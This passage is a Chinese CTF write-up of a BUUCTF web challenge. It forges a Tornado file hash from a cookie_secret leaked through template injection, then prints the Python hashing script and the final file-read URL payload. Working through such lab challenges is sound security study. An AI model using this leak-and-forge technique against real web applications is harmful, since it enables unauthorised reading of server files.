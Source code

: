 ![image-20200915145240995](BUUCTF——Web.assets/image-20200915145240995.png)

甚至可以进行计算

![image-20200915145328364](BUUCTF——Web.assets/image-20200915145328364.png)

![image-20200915145914781](BUUCTF——Web.assets/image-20200915145914781.png)

按照前面的三个文件的类型，想要找到flag也需要一定的格式

即

```html
***/error?msg=/fllllllllllllag&filehash=***
```

也就是说，问题在于怎么找到这个filehash。这时想起前面的hint有提及，filehash的格式是包含cookie_secret和filename的md5。

去找cookie_secret，没有思路，去看wp，发现他是在**Tornado官网文档**的**Tornado框架的附属文件handler.settings**中找到的cookie_secret。

![image-20200915152109760](BUUCTF——Web.assets/image-20200915152109760.png)

```python
import hashlib
cookie_secret = "928d5488-32fa-4910-b4ba-f62c9ebb8a4d"
filename = "/fllllllllllllag"
a  = hashlib.md5(filename)
b = a.hexdigest()
c = hashlib.md5(cookie_secret+b)
d = c.hexdigest()
print(d)
```

处理后得到结果： 1b8ef1b1d4695701f93f572811321a85

构造payload：

```
***/file?filename=/fllllllllllllag&filehash=1b8ef1b1d4695701f93f572811321a85
```

![image-20200915154155073](BUUCTF——Web.assets/image-20200915154155073.png)
